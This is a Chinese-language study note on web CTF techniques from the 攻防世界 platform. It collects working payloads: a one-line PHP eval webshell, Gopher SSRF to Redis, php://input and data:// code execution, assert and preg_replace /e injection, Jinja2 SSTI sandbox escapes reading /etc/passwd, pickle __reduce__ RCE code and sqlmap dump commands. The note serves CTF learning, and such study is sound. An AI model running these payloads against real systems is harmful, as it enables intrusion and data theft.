


web note 1 - CTF
===

总结了一些攻防世界 web CTF 题的思路:

## 发包结构

伪造源地址, 加在包的头部即可

```
GET /target HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0
X-Forwarded-For: 8.8.8.8      # 添加在这里
Referer: https://www.google.com/  # 添加在这里
Cookie: session=abc123
```

本地:

```

X-Forwarded-For:127.0.0.1
Client-ip:127.0.0.1
X-Client-IP:127.0.0.1
X-Remote-IP:127.0.0.1
X-Rriginating-IP:127.0.0.1
X-Remote-addr:127.0.0.1
HTTP_CLIENT_IP:127.0.0.1
X-Real-IP:127.0.0.1
X-Originating-IP:127.0.0.1
via:127.0.0.1
```

## SSRF: Gopher 协议

Gopher 是早期互联网协议（1990年代），用于分发、搜索和检索文档。它支持多种请求类型（如文件、目录、索引搜索等）。Gopher 协议常被用作 SSRF（Server-Side Request Forgery，服务端请求伪造）攻击的手段:

协议格式：Gopher 请求是一个单行文本，格式为：

```
<资源类型><选择器字符串>\t<主机名>\t<端口>\r\n

# 例如：1/exploit%0d%0aCOMMAND\tlocalhost\t6379\r\n（攻击 Redis）
```

> 注意: 支持多行输入（通过 `%0d%0a` 注入换行符）。
> 允许直接构造任意 TCP 数据包（包括 HTTP、FTP、Redis 等协议的命令）。

某些后端过滤中会禁止: `http://` 或 `file://` 协议，但常忽略陈旧的 `gopher://`。

示例攻击 Redis:

```
gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aSET%0d%0a$5%0d%0aKEY%0d%0a$5%0d%0aVALUE%0d%0a
```

此请求会向本机 Redis 发送 `SET KEY VALUE`。

- 为什么选择 Gopher?
  - Gopher 协议本身无身份验证，攻击者可直接构造请求访问敏感服务。内网服务（如 Redis、Memcached）通常使用明文协议，Gopher 可完美适配其命令格式。通过 `%0d%0a`（换行符）构造多行命令，模拟其他协议（如 HTTP POST 提交表单）。

### 防御:

协议白名单: 即禁用 gopher 协议;
输入校验: 过滤用户输入的 URL 中的特殊字符（如 `%0d%0a`）。
网络隔离(域渗透): 限制服务器访问内网的权限（防火墙策略、VPC 隔离）
服务加固: 为内网服务（Redis/Memcached）启用认证并限制绑定 IP。

## JWT

JWT 是一套签名认证体系, 本身提供了防伪签名, 数字身份认证;

JWT 有三部分: Header, Payload, Signature, 每部分都是一个 json;

- Header:

  指定 JWT 类型, 通常是 `JWT`, alg 为加密或签名算法, 常见 HMAC, RSA, ECDSA

  例如:

  ```json
  {
    "alg": "HS256",
    "typ": "JWT"
  }
  ```

- Payload:
  
  包含由服务器指定的信息, 例如:

  ```json
  {
    "sub": "1234567890",
    "name": "John Doe",
    "iat": 1516239022
  }
  ```

- Signature
  
  由前两部分拼起来然后进行签名生成; 生成和验证通常是使用相同秘钥, 秘钥机制保证防篡改; 例如:

  ```
  HMACSHA256(base64UrlEncode(header) + "." +base64UrlEncode(payload),secret)
  ```

## 编码

### URL 编码



## PHP

### PHP 所有有关 bash 命令的函数总结

system(): 无需多言, 执行并回显

exec():

shell_exec():

反引号: 等于直接在 bash 里

### PHP_RCE : MVC 框架

版本:
ThinkPHP 5.0系列 < 5.0.23
ThinkPHP 5.1系列 < 5.1.31

mvc 的效果听起来和反代是类似的, 不过 MVC 的效果是在站内, 当用户访问站点内某目录文件时, MVC 会使用映射, 将路径显示为另一个 (非常概括的说法)

严格一点来说:
- 模型（Model）：负责存储系统的中心数据。
- 视图（View）：将信息显示给用户（可以定义多个视图）。
- 控制器（Controller）：处理用户输入的信息。负责从视图读取数据，控制用户输入，并向模型发送数据，是应用程序中处理用户交互的部分。负责管理与用户交互交互控制。

　　视图和控制器共同构成了用户接口。
　　且每个视图都有一个相关的控制器组件。控制器接受输入，通常作为将鼠标移动、鼠标按钮的活动或键盘输入编码的时间。时间被翻译成模型或试图的服务器请求。用户仅仅通过控制器与系统交互。



这个 MVC 中的路由技术在现代 JavaScript 前端框架中不仅被沿用，还成了核心标配, 变得更加强大了。比如 js 网站中的路径可以是完全虚拟的

回到 Thinkphp 5.0 RCE 漏洞上, 如果在这个版本的 MVC 网站中, 选择的不是强制模式, 而是混合模式, 由于该版本缺少对 $ 等字符的过滤, 会导致 RCE 代码注入

完整复现:[CSDN博客](https://blog.csdn.net/mochu7777777/article/details/104842420)

#### 其他 ThinkPHP 框架基础:

- 类 IndexController 在 Application/Home/Controller/IndexController.class.php 下，URL 里写 Index（大小写按配置可略）。
- 默认的文件上传目录: /home/index/upload

### .php 和 .phps

`.phps` 是 php 文件源码的意思, 

1. `.php` 文件（标准 PHP 文件）

- 服务器行为：

  PHP 解释器执行文件中的代码, 将执行结果（HTML/文本等）发送给客户端

- 客户端看到：

```html
<!-- 执行结果 -->
<h1>Hello World</h1>
```

- 典型路径：https://example.com/login.php

2. `.phps` 文件（PHP Source 文件）

- 服务器行为：

  不执行 PHP 代码, 直接将源代码以语法高亮形式输出
 
- 客户端看到：

```php
<?php
// 带颜色的源代码
echo "<h1>Hello World</h1>";
?>
```
- 典型路径：https://example.com/login.phps


另外, url 大部分时候主要是编码和解码, 但是有些网站会使用加密, 注意区别, 以及 % 等特殊符号可能需要多次加密或者转义

### 超全局变量

`$_GET[]` 超全局变量里的所有值默认全部都是字符串


### md5 哈希碰撞

#### 特殊字符串

0e215962017 这个字符串md5后于自身弱比较相等

`QNKCDZO` 这个字符串 md5 为严格的科学计数法表示的 0 

ffifdyop md5 后变为万能密码: `' or '`

#### 弱比较绕过

当弱比较且哈希值都为 `0e` 开头, 将作为科学计数法处理, 又因为 0 的任意乘方都为零, 所以两个 `0e` 开头的字符串弱比较将会相等:

常用碰撞:

 `s878926199a` 和 `s155964671a`

#### 强比较绕过

传字符串则 md5 函数的返回结果为 null, 强比较 null === null , 通过;

```php
if($_POST['a']!==$_POST['b']&& md5($_POST['a'])===md5($_POST['b'])){
	die("success!");
}
```

只需要传入:

```
a[]=1&b[]=2
```

### 一句话木马:

```php
<?php @eval($_POST['shell']);?>
```

### intval 绕过

`intval()` 的含义为取变量的整数值, 其逻辑为**左往右解析字符串里的数字, 直到遇到非数字字符为止**; 特例:

```php
intval(true) === 1
intcal([123]) === 1 # 非空数组
```

### escapeshell 绕过

#### escapeshellcmd

`escapeshellcmd()` 对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。 此函数保证用户输入的数据在传送到 exec() 或 system() 函数，或者 执行操作符 之前进行转义。

受转义的字符是: ``&#;`|*?~<>^()[]{}$\、\x0A 和 \xFF``, 前方会插入一个 `\` , 引号仅在不配对的时候转义;

#### escapeshellarg

给字符串增加一个单引号并且在任何单引号前面添加一个 `\`;

参数注入基本用法:

```php

<?php
 
echo escapeshellarg('Hello');
// 输出值为：'Hello'
 
echo escapeshellarg('Hello\'');
// 输出值为：'Hello'\'''（在命令行使用 echo 'Hello'\'''，只会输出 Hello'）
```

长话短说, `escapeshellarg()` 能解决参数值的注入, 但是不能解决参数选项的注入, 例如考虑:

```bash
cmd target -a b
```

对于 `-a` 处的注入不能用这个函数解决


### PHP 伪协议

总结: [CSDN 博客](https://segmentfault.com/a/1190000018991087)

伪协议最经典的应用场景是 文件读取, 更精确的来说是文件包含。(include)

#### php://filter 伪协议

`php://filter` 用于在读取或写入数据时对数据流进行过滤处理，语法格式为：

```
php://filter/[读|写模式]/resource=目标资源
```

一般来说:
```
php://filter/read=convert.base64-encode/resource=
```

为什么要进行编码? 因为这样代码将变得不可执行, 如果直接原样返回, 假设目标是一串可执行代码, 如 php, 将返回代码结果而不是源码本身

> `read` 是可省略的

用过的姿势:
```
# base64 编码
GET /?filename=php://filter/convert.base64-encode/resource=check.php HTTP/1.1

# rot13 编码
GET /?filename=php://filter/read=string.rot13/resource=./check.php HTTP/1.1

# 转小写
GET /?filename=php://filter/read=string.tolower/resource=./check.php HTTP/1.1

# 去除 html/php 标签
GET /?filename=php://filter/read=string.strip_tags/resource=./check.php HTTP/1.1

# 将数据转换为 quoted-printable 格式
GET /?filename=php://filter/read=convert.quoted-printable-encode/resource=./check.php HTTP/1.1

# 字符集从 UTF-8 转换到 ISO-8859-1 (还可以是utf-32等)
# convert.iconv.<in-enc>.<out-enc> 
GET /?filename=php://filter/read=convert.iconv.utf-8/iso-8859-1/resource=./check.php 
```

绕过姿势:
1. `read=` 字符是可以省略的, 绕过 `read` 过滤

#### data:// 伪协议

```
data://<MIME类型>;[选项],<数据内容>
```
MIME 类型：如 text/plain、application/php 等，指定数据的类型。
选项：常用 base64 表示数据已进行 Base64 编码。
数据内容：直接嵌入的文本数据或 Base64 编码后的数据。

例如:
```php
<?php include('data://text/plain;base64,PD9waHAgc3lzdGVtKCd1bmFtZSAtYScpOyA/Pg=='); ?>
```
解码后:
```php
<?php system('uname -a'); ?>
```

再例如, 使用 data:// 伪协议来传参:

```
c=data://text/plain;base64,eyJtIjoiMjAyNWEiLCJuIjp7IjIwMjVhIjpbMSwxXSwiREdHSiI6MX19
```

#### php://input 协议

这是一个关键协议, 是非常常用的攻击对象, 如果执行了这个协议, 那么服务器会直接执行 body  正文表单中的 php 代码, 而这个代码可以含有系统指令, 例如:

```
http://223.112.5.141:62276/?page=PHP://input
```

表单:
```php
<?php
system("ls")
?>
```

并且这个请求不论是 POST 还是 GET 都可以发送, 一般来说会用带请求体的 GET 方法 (不规范但合法, 被php解析)

#### php函数

PHP 手册: [官网](https://www.php.net/manual/zh/)

```php
strstr(
    string $haystack, 
    string $needle, 
    bool $before_needle = false
    ): string|false
```
搜索一个字符串中某个子字符串的首次出现位置, 参数:
- `haystack`: 输入字符串。
- `needle`: 搜索字符串
- `before_needle`: 默认为 `false`, 为 `true` 返回该子字符串 (`needle`) 前面的字符串, 否则返回其 (含本身) 后的所有字符串。


```php
str_replace(
    array|string $search,
    array|string $replace,
    string|array $subject,
    int &$count = null
): string|array`
```

该函数返回字符串或者数组。该字符串或数组是将 `subject` 中全部的 `search` 都被 `replace` 替换之后的结果。

- `search`
  查找的目标值，也就是 needle。一个数组可以指定多个目标。

- `replace`
  search 的替换值。一个数组可以被用来指定多重替换。

- `subject` 
  执行替换的数组或者字符串。也就是 `haystack`。如果 `subject` 是一个数组，替换操作将遍历整个 `subject`，返回值也将是一个数组。

- `count`
  如果被指定，它的值将被设置为替换发生的次数。

如果 `search` 和 `replace` 都是数组, 那么他们的替换关系将会一一对应

```php
str_rot13(string $string): string
```

对 string 做 ROT13 变换, 也就是将其中的字母前移(或后移, 无所谓, 因为一共26个字母,整好移动一半) 13位。


```php
assert() 
```

这个函数可以直接解析并执行里面的 php 指令, 此处存在注入:

`assert("strpos('$file', '..') === false")`
payload:
`abc') or system("cat templates/flag.php");//`


正则匹配替换函数:
```
preg_replace(
    string|array $pattern,
    string|array $replacement,
    string|array $subject,
    int $limit = -1,
    int &$count = null
): string|array|null
```

在 $str 中搜索 $pat, 替换为 $replacement

- `$pattern` 模式字符串
- `$replacement` 替换字符串
- `$subject` 被搜索字符串

漏洞: 
这个函数有个 “/e” 漏洞，“/e” 修正符使 preg_replace() 将 replacement 参数当作 PHP 代码进行执行。如果这么做要确保 replacement 构成一个合法的 PHP 代码字符串，否则 PHP 会在报告在包含 preg_replace() 的行中出现语法解析错误。

比如: 
```url
pat=/abc/e&rep=system('ls')&sub=abc
```
(/e 并不是什么意外执行, 而是早期php 设计者为了方便用户开发设计出来的特性)

#### 题外话: 为什么 eval() 这么厉害?

eval() 和 system() 都极可能导致 RCE, 不同点在于 system() 是执行系统指令, 这会受制于操作系统, 而 eval() 是 **php语言构造器**, 灵活程度高得多, 只要服务器上有 php, 几乎可以无视操作系统执行任意指令, 从蓝队视角来说, eval() 是需要永远禁用的。

### PHP 常用绕过手法:

- 大小写绕过:

例如 `PHP://` 来绕过对 `php://` 的过滤

- 数字方面:
  
  - 科学计数法绕过: 例如 `$a ="6e7"` 可以在不超过三位的情况下完成 `$a > 10000` 的校验 

- 编码方面:

  unicode 编码: 某些网站只是简单的做了编码绕过, unicode有效,
  例如 `"` -> `\u0022`

### PHP 反序列化:

#### 魔法函数的具体调用时机:

- `__wakeup()`: 当对象被反序列化

即 `unserialize()` 时调用。

- `__construct()`: 对象被构造的时候调用:

例如, `$a = new person()` 调用

- `__destruct()`: 对象被销毁时调用:

脚本执行完毕, 或者 `$a = null`, 或者 `unset($a)`

#### 不同属性序列化后的格式长度:

来源: [CSDN 博客](https://blog.csdn.net/qq_41617034/article/details/104573548)

`public` 属性被序列化的时候属性值会变成 `属性名`
`protected` 属性被序列化的时候属性值会变成 `\x00` `*` `\x00` `属性名` 
**`private` 属性被序列化的时候属性值会变成`\x00` `类名` `\x00` `属性名`**

这道题非常有代表性, payload 为

`?var=TzorNDoiRGVtbyI6MTp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==`

当序列化结果自相矛盾时, __wakeup() 不会执行, 可以用这个方法来绕过

### 正则专栏

#### 反 php 正则表达式过滤

`preg_match()` 的一个漏洞，假设目前过滤了 `.php` 等文件后缀, 那么在正则匹配结束后会转义unicode，把传入参数 unicode 编码再 url 编码即可绕过, 

此外, 对linux 系统, 如果服务端是用的这种过滤:

```php
if(preg_match('/.+\.ph(p[3457]?|t|tml)/i', $filename)) {
    die("禁止上传PHP文件！");
}
```

那么只要上传 `.php/.` 后缀即可, 因为 linux 服务器会截断最后的 `/.`, 最后文件还是会以 `.php` 的形式保存在服务器上, 而正则表达式中, 由于最后一个 `.` 被放在了最后, 会导致匹配失败(与空字符串匹配), 被放行。

#### 正则 RCE 

以 `/e` 结尾的正则表达式匹配函数会导致 RCE

#### 堆栈绕过

在一篇 wp 里有细说, 概括的说就是通过语言本身对正则匹配函数堆栈深度的限制让调用资源超限, 从而函数返回 false (执行失败, 该值为布尔型) 绕过; 常见于匹配含大量 + 等符号(非惰性匹配)

#### 其他常用 bypass

`(.*)` 为贪婪匹配, 并且不匹配换行符 `%0a`, 考虑可以用这个绕过;


### 无字符RCE

对于有长度限制的 payload, 可以用 `$_GET[]();`, 或者 `$_GET{}()`; 

什么是无字符 RCE?

- 位运算/数学运算： 这是核心手段。利用 `^` (异或), `|` (或), `&` (与), `~` (取反), `+`, `-`, `*`, `/`, `%` 等操作符，将允许使用的非字母数字字符（如 `{`, `}`, `[`, `]`, `~`, `^`, `|`, `!`, `"`, `'`, ` `, `$`, `@`, `(`, `)`, `;`, `=`, `+`, `.`）组合计算，得到目标字母或数字的 ASCII 码值。 利用各种非数字字母的字符，经过各种变换（异或、取反、自增），构造出单个的字母字符，然后把单个字符拼接成一个函数名，比如说assert，然后就可以动态执行了。所以说这里的核心就是非字母的字符换成字母字符。

  - 异或: 在php中，两个字符进行异或时，会先将字符串转换成ascii码值，再将这个值转换成二进制，然后一位一位的进行按位异或;
  - 取反: `~`
  - 

- 寻找可用特殊字符： 分析目标环境（PHP, Python, Node.js 等）和 WAF/过滤规则，确定哪些非字母数字字符是被允许且具有语法意义的（如连接字符串的 `.`, 表示变量的 `$`, 表示数组的 `[]`, 表示代码块的 `{}`, 运算符，引号等）。

- 编码： 有时直接拼接运算结果可能受限，可以利用 URL 编码、Base64 编码（如果环境允许解码函数且其函数名能用无字符方式构造）、十六进制表示法等进行间接传递。

- 动态函数调用： 这是执行的关键。在 PHP 中，`$GET[]()` 或 `$_POST[]()` 是典型手法（变量函数）。通过无字符方式构造出字符串 `'system'` 存入变量 A，再构造出字符串 `'cat /flag'` 存入变量 B，最后通过 `$A($B)` 实现 `system('cat /flag')` 的效果。其他语言也有类似机制（如 Python 的 `getattr(__builtins__, 'exec')` 如果能构造）。

- 长度限制应对： 当输入长度受限时，需要更精巧的构造：

  - 利用短标签/语法糖： PHP 的 ` 反引号直接执行命令（如果可用且未被过滤）。
  - 环境变量/预定义常量： 利用 $_SERVER、$_ENV 中的信息片段。
  - 多次请求/Session： 分多次请求构造所需字符串片段并存储在 Session 或临时文件中，最后组合执行（需要环境支持）。
  - 极简构造： 用最少的运算和字符构造最短的有效载荷。

#### 转义

注意, php 中, 只有双引号包裹的字符串才会转义 `\x00` 这样的 hex 码, 单引号不行

## 公式枚举

### SQLMAP 公式注入

用 SQLMAP 前应该先尝试手动注入

先找到一个搜索框, 随便输入个值, 然后抓包保存到 a.txt

```bash
sqlmap -r a.txt -dbs
```

接下来参照这个例子, 按从外到内, 从库到表, 到字段的方式渗透数据库

```bash
sqlmap -r xctfrequest.txt -D news --tables
sqlmap -r xctfrequest.txt -D news -T secret_table  --columns
sqlmap -r xctfrequest.txt -D news -T secret_table -C "id,fl4g" --dump
```

## 攻防世界 题解

#### web2

关键代码

```python
maze = "~88:36e1bg8438e41757d:29cgeb6e48c`GUDTO|;hbmg"

def decode_maze(maze):
    decoder = []
    for i in range(len(maze)-1, -1, -1):
        decoder.append(chr(ord(maze[i]) - 1))
    return ''.join(decoder)

print(decode_maze(maze))  
''' 原函数
function encode($str){
    $_o=strrev($str); //逆序 $str
    for($_0=0;$_0<strlen($_o);$_0++){ //顺序
        $_c=substr($_o,$_0,1); // $_c=$_o[$_O], 取末尾字符
        $__=ord($_c)+1;  
        $_c=chr($__); //$_c=chr(ord($_c)+1), 编码自增
        $_=$_.$_c;   //把$_c拼接到末尾
    } 
    return str_rot13(strrev(base64_encode($_)));
}  
// 加密:
// ROT13(right)编码 <-  逆序 <- base64编码
// 逆算:
// ROT13(left)解码 -> 逆序 -> base64解码 
'''
```

### Flask 伪造 session

[csdn](https://www.haoyun.website/2024/01/17/%E3%80%90%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C%E3%80%91Web%E7%B3%BB%E5%88%97%E4%B9%8Bcatcat-new/)

### 文件包含:

`/proc/self/cmdline` 当前运行的进程参数行命令

### 文件上传处可能存在的 SQL 注入:

原理很好理解, 上传之后的文件如果存在预览, 特别是文件名, 就有可能有注入: 可以设想语句:

`insert into 表名('filename',...) values('你上传的文件名',...);`

参考: [cnblogs](https://www.cnblogs.com/Dozeer/p/10953036.html)

## Python

### flask 注入

> [flask基础](https://www.freebuf.com/column/187845.html)

1. 确认是否有注入

尝试 payload = `{{2*2}}`

如果结果被算出来了, 说明其中的命令已被执行

2. 确认沙箱

Flask 默认有沙箱, 测试沙箱环境:

```
{{ config }}  # 尝试访问 Flask 应用配置
{{ self }}    # 尝试访问模板上下文
```

如果返回有效结果, 那么说明沙箱已经被绕过了
否则要想办法绕沙箱

3. 调用魔术方法来寻找利用点
  
利用点的思路:

```
对象实例（如 "hello"）
  ↳ __class__              # 返回类对象 <class 'str'>
       ↳ __mro__           # 返回继承链元组 (<class 'str'>, <class 'object'>)
            ↳ [1]          # 索引 1 是 object 类
                 ↳ __subclasses__()  # 返回所有子类列表
                      ↳ [40]         # 假设索引 40 是 file 类
                           ↳ __init__          # file 类的构造函数
                                ↳ __globals__   # 全局命名空间
                                     ↳ 'open'   # 文件操作函数
                                     ↳ 'os'     # OS 模块
```

`__class__`  返回类型所属的对象
`__mro__`    返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。
`__base__`   返回该对象所继承的基类  // __base__和__mro__都是用来寻找基类的

`__subclasses__()`   每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表
`__init__`  类的初始化方法
`__globals__`  对包含函数全局变量的字典的引用

最经典的利用:
(XCTF - Web_python_template_injection)

`''.__class__.__mro__` 查看继承链

`''.__class__.__mro__[2].__subclasses__()` 找到父类的所有子类, 然后锁定到其中的 file 类型进行文件读取

`''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()` 读出 `/etc/passwd`

同理, 找到其中的 `site._Printer` 类型, 这个可以执行命令:

`''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].listdir('.')` 读出当前目录

最终 payload = `{{''.__class__.__mro__[2].__subclasses__()[40]('fl4g').read()}}` 

### flask 框架基础

flask 框架的主要文件: `app.py`

#### flask session 伪造

参考: [csdn](https://blog.csdn.net/2302_79800344/article/details/137391400)

flask session 伪造需要用到私钥, `serect_key`; `serect_key`的值可通过内存数据获取，在读取内存数据文件(`proc/self/mem`)之前，我们需要知道哪些内存是可以读写的，这就需要我们先通过`proc/self/maps`获取可读内容的映射地址:

### SSTI 注入 (RCE 高危, 常见的 Python 漏洞)

文档:
```
 for Statements 

{{ ... }} for Expressions to print to the template output

{# ... #} for Comments not included in the template output

#  ... # for Line Statements

可以用来声明变量，当然也可以用于循环语句和条件语句。
{{}}用于将表达式打印到模板输出
{##}表示未包含在模板输出中的注释
##可以有和相同的效果
```


系统的认识 SSTI 注入:

是一种利用 Web 应用程序的模板渲染机制执行恶意代码的安全漏洞

前面这两种利用均是 SSTI

其原理是将恶意模板语法注入服务端模板中:

Web 应用常使用模板引擎（如 Jinja2、Thymeleaf、Freemarker）动态生成 HTML。例如：

#### Flask (Python) + Jinja 渲染

```python
# Flask + Jinja2 示例
from flask import render_template_string
name = request.args.get('name')
output = render_template_string(f"Hello, {name}!")  # 用户输入直接拼接到模板
```
正常输入：name=Alice → 渲染 Hello, Alice!

恶意输入：name={{7*7}} → 渲染 Hello, 49!（执行了计算）

{{7*'7'}} -> 49 -> twig

{{7*'7'}} -> 7777777 -> jinjia2

#### Flask 沙箱逃逸

如果服务器对 read(), subclass() 等关键方法做了过滤, 但是没有过滤 request(), 那么就可以利用黑名单做沙箱逃逸:

`request` 是 Flask 框架的一个全局对象 , 表示 "当前请求的对象(flask.request) " 。

所以我们可以利用 **request.args + GET传参**绕过输入黑名单，进行沙箱逃逸。其实就是闯过重重黑名单，最终拿到系统命令执行权限的过程。

payload: `{{''[request.args.a][request.args.b][2][request.args.c]()[40]('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt')[request.args.d]()}}?&a=__class__&b=__mro__&c=__subclasses__&d=read`

其实就是吧之前的 payload 用 request 的方式重构了

#### 快速判断框架

payload = `{{7*7}}` 判断是否有注入

payload = `{{7*'7'}}`, 结果若为 `'7777777'` 则说明一定为 jinja2 或者 Twig 引擎 (这是他们的特性)

#### Tornado

Tornado 模板允许执行任意 Python 表达式（比 Jinja2 更开放）：Tornado 无内置沙箱，模板中可直接调用 `__import__`、`open` 等危险函数

#### 常见绕过:

思路: [CSDN](https://blog.csdn.net/qq_33020901/article/details/83036927)

- 不需要 `()` 直接读取 `self`  `config` 的payload:
 `{{ url_for.__globals__['current_app'].config}}`

- `request` + GET 传参绕过黑名单沙箱逃逸: `{{''[request.args.a][request.args.b][2][request.args.c]()[40]('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt')[request.args.d]()}}?&a=__class__&b=__mro__&c=__subclasses__&d=read`

- 无过滤无沙箱的情况下: `''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()` 读出 `/etc/passwd`

### Python 反序列化

原理和 PHP 反序列化是一样的, python 里这个叫魔术方法:

> 这篇文章说的很好: [知乎文章](https://zhuanlan.zhihu.com/p/89132768)

#### 从 php 出发去理解 python 反序列化

Python 的反序列化依赖于 pickle 这个模块, 其底层的魔术方法是 `__unpickle()` 。 

python 的序列化规则和 php 有所不同, 并不是把对象压成一个符合规范的 json 字符串, 而是一种类似反汇编语言的结构;

#### 典型的利用(__reduce__)

　　一种很流行的攻击思路是：利用 _`_reduce__` 构造恶意字符串，当这个字符串被反序列化的时候，`__reduce__` 会被执行。网上已经有海量的文章谈论这种方法，所以我们在这里不过多讨论。只给出一个例子：正常的字符串反序列化后，得到一个Student对象。我们想构造一个字符串，它在反序列化的时候，执行ls /指令。那么我们只需要这样得到payload：

```python
# 无 os
import pickle
import base64
 
class A(object):
    def \_\_reduce\_\_(self):
        return (eval, ("\_\_import\_\_('os').popen('tac /flag').read()",))
    
a = A()
a = pickle.dumps(a)
print(base64.b64encode(a))
```

```python
# 有 os
import pickle
import base64
 
class A(object):
    def \_\_reduce\_\_(self):
        return (eval, ("\_\_import\_\_('os').popen('tac /flag').read()",))
    
a = A()
a = pickle.dumps(a)
print(base64.b64encode(a))
```

## JS

### 原型链污染

> 原理参考: [Blog](https://drun1baby.top/2022/12/29/JavaScript-%E5%8E%9F%E5%9E%8B%E9%93%BE%E6%B1%A1%E6%9F%93/#1-%E4%BB%80%E4%B9%88%E6%98%AF%E5%8E%9F%E5%9E%8B%EF%BC%88JavaScript-%E5%8E%9F%E5%9E%8B%E9%93%BE%E7%BB%A7%E6%89%BF%EF%BC%89)

关键字区别:

`var` 是全局作用域，`let` 只在当前代码块内有效;

#### 闭包

通常来说, 局部变量会在其对应调用结束后自动释放, 也就类似于 C 的堆栈; 但是通过闭包的方式, 可以延长局部变量的生命周期, 此时外部变量不能访问到该函数内部, 但是函数内部的局部变量反而可以访问到外部。

> JavaScript 的闭包机制是为了支持：事件处理, 模块模式, 函数工厂

一个例子: 不使用全局变量的情况下, 实现一个计数器:

```javascript
var add = (function () {
    var counter = 0; // 注意, 这个声明语句只会执行一次
    return function () {return counter += 1;}
})();
```

#### 原型 - Prototype

JS 使用原型而非类来实现对象的绑定, JS 的类这个概念也与其他语言有所不同

核心思想： JavaScript 的对象通过内部的 `[[Prototype]]` 属性（可通过 `__proto__` 访问，但标准方法是 `Object.getPrototypeOf()`）指向另一个对象（其原型对象）。如果试图访问一个对象的属性或方法，而该对象自身没有这个属性，引擎就会沿着它的 `[[Prototype]]` 链向上查找，直到找到该属性或到达原型链的末端（`null`）。

`prototype` 属性： 这是函数对象特有的属性。当使用 new 关键字调用一个构造函数时，新创建的实例对象的 `[[Prototype]]` 会自动指向该构造函数的 `prototype` 属性所指向的对象。

`constructor` 属性： 构造函数的 `prototype` 对象默认有一个 constructor 属性指回该构造函数本身。

#### 未授权访问

考虑:

```js
function newClass() {
    this.test = 1;
}

var newObj = new newClass();
```


```
newObj
newClass {test:1}
  test:1
  [[prototype]]: Object
    constructor: f newClass()
    [[prototype]]: Object

newObj.__proto__ === newClass.prototype
true

```

prototype 是 newClass 类的一个属性，而所有用 newClass 类实例化的对象，都将拥有这个属性中的所有内容，包括变量和方法（这里和 Java 反射的概念挺像的）。

现在实例化的类的 `__proto__` 指向的是类的 `prototype`, 那么如果修改这个实例化的类的 `__proto__`, 类的 `prototype` 也会改变, 这就是原型链污染的起点。

#### 实际场景中的污染

考虑一个拷贝 (合并) 的场景 (可以覆盖一个已有的实例, 也可以覆盖在空内容上, 也就是clone):

```js
function merge(target, source) {
    for (let key in source) {
        if (key in source && key in target) {
            merge(target[key], source[key])
        } else {
            target[key] = source[key]
        }
    }
}
```

控制台中:

```js
let o1 = {}
let o2 = {a: 1, "__proto__": {b: 2}}
merge(o1, o2)
console.log(o1.a, o1.b)

o3 = {}
console.log(o3.b)

// 结果是
// 1, 2
// undefined
```

并没有被污染, 这是因为，我们用 JavaScript 创建 o2 的过程（let o2 = `{a: 1, "__proto__": {b: 2}}`）中， _`_proto__` 已经代表 o2 的原型了，此时遍历 o2 的所有键名，你拿到的是 [a, b]，`__proto__`并不是一个key，自然也不会修改 Object 的原型。

但是, 如果代码如下:

```js
let o1 = {}
let o2 = JSON.parse('{"a": 1, "__proto__": {"b": 2}}')
merge(o1, o2)
console.log(o1.a, o1.b)

o3 = {}
console.log(o3.b)
```

此时结果为:

```
1 2
2 // o3 被污染了
```

这是因为，JSON 解析的情况下，`__proto__` 会被认为是一个真正的“键名”，而不代表“原型”，所以在遍历 o2 的时候会存在这个键。

## Node.js

### parameterLimit 限长

express的parameterLimit默认为1000, 如果过长可能引发安全问题, 导致服务器过载

## Misc

### 文件上传绕过

#### perl (.pl) 漏洞

原理: perl文件遇到上传可配合ARGV文件使用造成任意文件读取或者任意命令执行(管道符)
(XCTF i-got-id-200)

我们猜测后台逻辑大概是这样的。

```perl
use strict; use warnings; use CGI;

my $cgi= CGI->new; if ( $cgi->upload( 'file' ) ) { my $file= $cgi->param(
'file' ); while ( <$file> ) { print "$_"; } } 
```
3.那么，这里就存在一个可以利用的地方，param()函数会返回 一个列表的文件 但是 只有第一个文件会被放入到下面的file变量中。如果我们传入一个ARGV的文件，那么Perl会将传入的参数作为文件名读出来。

4.在正常的上传文件前面加上一个文件上传项ARGV，然后在URL中传入文件路径参数，可以实现读取任意文件。

5.那么到了这里，可以有两种方法处理：第一种，直接猜出flag文件/flag；

6.第二种，通过管道的方式，执行任意命令，然后将其输出结果用管道传输到读入流中，这样就可以保证获取到flag文件的位置了。这里用到了${IFS}来作命令分割，原理是会将结果变成bash -c "ls/"的等价形式。最后得到flagFLAG{p3rl_6_iz_EVEN_BETTER!!1}

> 注: 绕过 '/' 的方式: 利用printf (bash 命令)

